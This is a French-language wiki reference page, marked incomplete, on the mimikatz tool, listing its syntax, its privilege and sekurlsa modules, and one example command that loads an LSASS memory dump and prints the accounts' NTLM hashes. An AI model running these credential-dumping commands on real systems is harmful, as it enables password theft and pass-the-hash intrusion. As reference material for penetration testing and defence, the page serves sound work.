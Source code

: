 ```yaml
---
title: mimikatz
description: Permet d'extraire les mots de passe, hash, codes PIN ou tickets Kerberos depuis la mémoire. Peut aussi effectuer des attaques de type pass-the-hash, pass-the-ticket ou construire des Golden tickets.
published: true
date: 2024-09-14T07:06:08.842Z
tags: outil, windows, rédaction incomplète
editor: markdown
dateCreated: 2024-07-14T13:18:23.544Z
---
```


# Introduction

**_Ce document est toujours en cours d'édition, en fonction des outils utilisés._**

Mimikatz permet d'extraire les mots de passe, hash, codes PIN ou tickets Kerberos depuis la mémoire. Peut aussi effectuer des attaques de type pass-the-hash, pass-the-ticket ou construire des Golden tickets.

> Mimikatz est disponible au téléchargement ici: https://github.com/gentilkiwi/mimikatz
> {.is-info}

# Syntaxe de lancement

`mimikatz.exe [instruction(s)]`

# Syntaxe d'instruction

`[nom du module]::[commande] [arguments]`

# Commandes du module standard

> Les commandes du module standard peuvent être exécutés sans préciser le module standard.
> {.is-info}

| Commande        | Description                                                      |
| --------------- | ---------------------------------------------------------------- |
| `exit`          | Quitte mimikatz                                                  |
| `cls`           | Efface l'affichage                                               |
| `log [fichier]` | Enregistre les entrées et sorties de mimikatz dans un fichier    |
| `base64`        | Permet d'utiliser l'encodage base64 toute sortie vers un fichier |
| `version`       | Affiche la version                                               |

# Modules

Les modules sont des boites à outils permettant des actions spécifiques.

| Module      | Description                                                                                                   |
| ----------- | ------------------------------------------------------------------------------------------------------------- |
| `privilege` | Permet de manipuler les privilèges du processus mimikatz                                                      |
| `sekurlsa`  | Permet d'extraire les mots de passe, hash, codes PIN ou tickets Kerberos depuis la mémoire du processus LSASS |

# Module privilege

| Module  | Description                                                      |
| ------- | ---------------------------------------------------------------- |
| `debug` | Demande le privilège SeDebugPrivilege pour le processus Mimikatz |

# Module sekurlsa

> Si aucun fichier de vidage n'est précisé, alors Mimikatz effectuera un vidage lui-même. Si cela est le cas, il faut obligatoirement avoir le privilège SeDebugPrivilege d'activé pour le processus (voir privilege::debug).
> {.is-info}

| Module                                        | Description                                                        |
| --------------------------------------------- | ------------------------------------------------------------------ |
| `minidump [fichier de vidage au format .dmp]` | Utilise le fichier de vidage du processus LSASS spécifié           |
| `logonpasswords`                              | Affiche les hashs NTLM des comptes ainsi que d'autres informations |

# Exemples

Utilise le fichier de vidage lsass.dmp et affiche les hashs NTML des comptes. Tout en sauvegardant la sortie vers le fichier "log1.log"

`mimikatz.exe "log log1.log" "sekurlsa::minidump lsass.dmp" "sekurlsa::logonpasswords"`

# A voir

Wiki de Mimikatz:
https://github.com/gentilkiwi/mimikatz/wiki
